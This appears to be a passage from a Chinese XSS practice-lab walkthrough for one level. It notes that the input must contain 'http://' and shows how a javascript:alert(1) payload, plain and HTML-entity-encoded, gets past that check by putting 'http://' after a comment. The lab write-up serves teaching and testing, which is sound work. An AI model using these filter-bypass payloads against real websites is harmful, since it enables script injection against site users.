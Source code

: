 ![image-20220116131117414](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116131117414.png)

会判断合法与否

![image-20220116131328786](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116131328786.png)

通过测试得到：必须要包含http://

```
http://
```

用level8测试发现不可以：

```
http://&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;

http://javascript:alert(1)
```

那么思考：

```
javascript:alert(1)//http://

&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://
```



## level10
